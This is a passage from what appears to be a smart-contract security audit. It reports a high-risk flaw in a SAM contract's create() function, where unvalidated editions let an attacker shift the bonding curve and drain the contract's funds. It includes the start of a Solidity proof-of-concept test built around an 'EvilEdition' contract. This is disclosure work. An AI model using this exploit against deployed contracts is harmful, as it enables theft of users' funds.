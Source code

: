 **Auditor**

[Zach Obront](https://twitter.com/zachobront)

# Findings

## High Risk

### [H-01] All funds can be stolen from the SAM contract

The `create()` function doesn't validate that new editions added to the SAM contracts are, in fact, editions.

A malicious contract can be added that always passes the `onlyEditionOwnerOrAdmin` and `onlyBeforeMintConcluded` checks, which allows the exploiter to set all parameters at any time.

A user can therefore:

- Add their contract as an edition with a very low inflection price, increasing data.supply arbitrarily at ~ no cost
- Adjust the inflection price and point so that the curve shifts, increasing token price
- Sell their tokens back into the curve for more than was ever put in, emptying funds from the SAM contract

**Proof of Concept**

Here is a drop in test that can be added to the test file to validate this attack:

```solidity
pragma solidity ^0.8.16;

import { SAM } from "@modules/SAM.sol";
import "forge-std/Test.sol";

contract EvilEdition {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function mintConcluded() public view returns (bool) {
        return false;
    }

    function samMint(address to, uint quantity) public returns (uint) {
        return 1;
    }

    function samBurn(address from, uint[] memory tokenIds) public {}
}

contract SAMTests is Test {
    SAM sam;
    EvilEdition edition;
    address exploiter = makeAddr("exploiter");

    function testZach__BigEvilExploit() public {
        vm.startPrank(exploiter);
        vm.deal(exploiter, 1);

        sam = new SAM();
        edition = new EvilEdition();
        vm.deal(address(sam), 1000 ether);
        console.log("Starting Exploiter Balance:", exploiter.balance);
```